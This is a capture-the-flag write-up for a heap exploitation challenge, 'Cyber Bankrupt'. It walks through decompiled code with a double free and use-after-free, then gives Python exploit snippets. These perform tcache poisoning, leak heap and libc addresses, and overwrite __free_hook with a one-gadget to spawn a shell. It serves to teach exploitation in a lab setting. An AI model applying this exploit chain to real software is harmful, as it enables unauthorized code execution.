

        <font size="6">Cyber Bankrupt</font>

​	4<sup>th</sup> Feb 2025

​	Prepared By: w3th4nds

​	Challenge Author(s): w3th4nds

​	Difficulty: <font color=orange>Medium</font>

​	Classification: Official

 


# Synopsis

Cyber Bankrupt is a medium difficulty challenge that features:

* Trigger tcache `double free` and show heap base.
* Get a chunk which is overlapped by using `tcache poisoning`.
* Leak `libc` address
* Get a chunk which is overlapped `__free_hook` and overwrite `__free_hook` to one gadget rce.

# Description

We’ve gained access to Volnaya’s internal bank transaction system—a tool they use to meticulously transfer funds while effortlessly erasing transaction histories to avoid detection. Notably, they operate a single transaction channel to maintain strict control over their operations. Your challenge is to exploit this system and uncover the destination of their money transfers.

## Skills Required

- Heap internals

## Skills Learned

- `tcache poisoning`, `double free`.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'./glibc/'
Stripped:   No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 



### Disassembly

Starting with `main()`:

```c
00001625  int32_t main(int32_t argc, char** argv, char** envp)

00001625  {
00001636      void* fsbase;
00001636      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
0000163c      banner();
00001646      pin_check();
0000164b      int32_t i = 0;
0000164b      
00001656      while (i <= 0xd)
00001656      {
00001664          i += 1;
0000166d          int64_t choice = menu();
0000166d          
00001676          if (choice == 2)
00001695              clear_history();
00001676          else if (choice == 3)
000016a1              view_details();
0000167c          else if (choice != 1)
000016b4              error("Invalid option, exiting..\n\n");
00001682          else
00001689              transfer_money();
00001656      }
00001656      
0000165f      fail("For safety reasons you are logge…");
0000165f      /* no return */
00001625  }
```

As expected from the interface, there are 3 main operations:

* `transfer_money()`
* `clear_history()`
* `view_details()`

### transfer_money()

```c
0000134a  int64_t transfer_money()

0000134a  {
00001352      void* fsbase;
00001352      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
00001366      int32_t rax_1 = check_id();
00001375      info("Enter amount you want to transfe…");
0000137f      int32_t sz = read_num();
00001387      getchar();
00001387      
00001399      if ((sz <= 0 || sz > 0x420))
00001399      {
000013a2          fail("Invalid amount!\n");
000013a2          /* no return */
00001399      }
00001399      
000013cb      &acc[((int64_t)rax_1)] = malloc(((int64_t)sz));
000013d6      info("Enter receiver: ");
00001404      int32_t nbytes = read(0, &acc[((int64_t)rax_1)], ((int64_t)(sz - 1)));
00001404      
00001410      if (nbytes == 0xffffffff)
00001410      {
00001419          fail("Invalid username!");
00001419          /* no return */
00001410      }
00001410      
00001432      &acc[((int64_t)nbytes)] = 0;
0000143f      loading_bar();
0000144b      success("Transaction succeed!\n\n");
00001455      int64_t result = (canary ^ *(uint64_t*)((char*)fsbase + 0x28));
00001455      
0000145e      if (result == 0)
00001466          return result;
00001466      
00001460      __stack_chk_fail();
00001460      /* no return */
0000134a  }
```

It reads up to `0x420` bytes and and writes it to `acc[idx]`. The twist here is that we can only choose `idx == 0`.

### check_id()

```c
000011f4  uint64_t check_id()

000011f4  {
000011fc      void* fsbase;
000011fc      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
00001212      info("Enter Bank ID: ");
0000121c      int32_t idx = read_num();
0000121c      
0000122e      if ((idx < 0 || idx > 0))
0000122e      {
00001237          fail("Invalid ID!\n");
00001237          /* no return */
0000122e      }
0000122e      
0000124c      if (canary == *(uint64_t*)((char*)fsbase + 0x28))
00001254          return ((uint64_t)idx);
00001254      
0000124e      __stack_chk_fail();
0000124e      /* no return */
000011f4  }
```

### clear_history()

```c
00001467  int64_t clear_history()

00001467  {
0000146f      void* fsbase;
0000146f      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
00001483      int32_t idx = check_id();
00001492      success("Transaction history has been wip…");
000014b2      free(&acc[((int64_t)idx)]);
000014bc      int64_t result = (canary ^ *(uint64_t*)((char*)fsbase + 0x28));
000014bc      
000014c5      if (result == 0)
000014cd          return result;
000014cd      
000014c7      __stack_chk_fail();
000014c7      /* no return */
00001467  }
```

It does not null the buffer after freed, leading to `UAF` and there is no check if the `chunk` is already `free`, leading to `double free`.

### view_details()

```c
000014ce  int64_t view_details()

000014ce  {
000014d6      void* fsbase;
000014d6      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
0000150d      puts(&acc[((int64_t)check_id())]);
00001517      int64_t result = (canary ^ *(uint64_t*)((char*)fsbase + 0x28));
00001517      
00001520      if (result == 0)
00001528          return result;
00001528      
00001522      __stack_chk_fail();
00001522      /* no return */
000014ce  }
```

It just prints out the `acc[idx]` which is `acc[0]` always.

## Solution 

```python
transfer(0, 0x100)
for _ in range(2): free(0)
```

### Allocation

- A chunk of size `0x100` is allocated and assigned index `0`.

### Double Free

- The chunk at index 0 is freed twice in succession. This unusual action leads to a double free scenario, placing the same chunk address into the tcache freelist for size `0x110` (0x100 size plus metadata) twice.
- Normally, double free is prevented, but if the program does not check for it, this results in duplicate entries in the `tcache` bin for that chunk size.

### Leaking a Heap Pointer

```python
view(0)
leak = rl()
curr_chunk = u64(leak[:6].ljust(8, b'\x00'))
print(f'[*] Current chunk: {curr_chunk:#04x}')
```

### Show Freed Chunk

- Invoking `show(0)` on a freed chunk yields data from the tcache freelist pointer.
- The script reads the leaked pointer value, which points to the next free chunk in the tcache bin. This leaked pointer is stored as `curr_chunk`.

### Tcache Poisoning

```python
transfer(0, 0x100, p64(curr_chunk))
transfer(0, 0x420)
transfer(0, 0x100, p64(curr_chunk))
transfer(0, 0x100)
clear(0)
```

### Overwrite Tcache Forward Pointer

- `transfer(0, 0x100, p64(curr_chunk))` allocates another chunk of size `0x100` and writes the leaked pointer (`curr_chunk`) into its data.
- This operation likely overwrites the forward pointer in the tcache entry, setting up for tcache poisoning—manipulating the tcache list so that a future allocation can return an arbitrary address.

### Additional Allocations

- A larger chunk of size `0x420` is allocated to further shape the heap layout.
- Additional allocations of size `0x100` are performed, each time writing `curr_chunk` into the chunk. This reinforces the manipulated `tcache` list.

### Freeing to Trigger Consolidation

- Another free operation on index 0 is performed, which may consolidate the manipulated pointers into the `tcache freelist`.

### Leaking a Libc Address

- By calling `show(0)` on the manipulated chunk, the script leaks a pointer that now resides within libc.
- The leaked value is used to calculate the base address of `libc` by subtracting a known offset (`0x3ebca0`), which corresponds to the particular symbol or structure in libc that was leaked.

### Overwriting `__free_hook`

```python
transfer(0, 0x40, p64(libc.sym.__free_hook))
transfer(0, 0x100)
transfer(0, 0x100, p64(libc.address + 0x4f322))
clear(0)
```

**Prepare to Overwrite:**

- A small chunk of size `0x40` is allocated, and its data is set to point to `__free_hook` in libc. This is a critical step in tcache poisoning: redirecting future allocations to the address of `__free_hook`.

**Trigger Allocation at `__free_hook`:**

- Another allocation of size `0x100` reserves space.
- A subsequent allocation writes the address `libc.address + 0x4f322` into the chunk. This address is a “one-gadget”—a location in libc that, when executed, typically results in a shell.

**Free to Trigger Hook Execution:**

- Calling `free(0)` on a chunk whose memory has been manipulated to point to `__free_hook` triggers the overwritten hook. Since `__free_hook` now contains the address of the one-gadget, this call leads to execution of that gadget, resulting in arbitrary code execution (likely spawning a shell).

## Summary

### **Heap and Exploit Mechanisms Explained**

- **Heap Overview:**
  The glibc heap is managed using bins (fast bins, tcache, unsorted bins, etc.) to handle allocation and deallocation efficiently. Tcache is a per-thread cache for small allocations that speeds up the malloc/free process. It maintains singly linked lists of freed chunks.
- **Double Free and Tcache Poisoning:**
  A double free error introduces the same chunk into the tcache list multiple times. By controlling the data written into freed chunks (specifically the tcache forward pointers), an attacker can poison the tcache to make future allocations return arbitrary addresses.
- **Libc Leak and Offset Calculation:**
  Leaking a pointer from the heap or tcache allows calculation of the base address of libc. This is critical for finding the correct addresses of functions or hooks like `__free_hook` and gadgets used for code execution.
- **Overwriting `__free_hook`:**
  By manipulating allocations and using tcache poisoning, the attacker redirects an allocation to point to `__free_hook`. Writing a one-gadget address to this hook means that when `free` is eventually called on that chunk, control transfers to the one-gadget, effectively executing arbitrary code.

### **Conclusion**

This exploit intricately manipulates the heap using double free and tcache poisoning techniques to gain arbitrary write capabilities. By leaking a libc address, calculating offsets, and finally overwriting `__free_hook` with a one-gadget, the attacker redirects execution flow to spawn a shell and retrieve the flag. This detailed walkthrough shows how understanding heap internals and glibc's memory management can be leveraged to exploit vulnerabilities in seemingly memory-safe code.
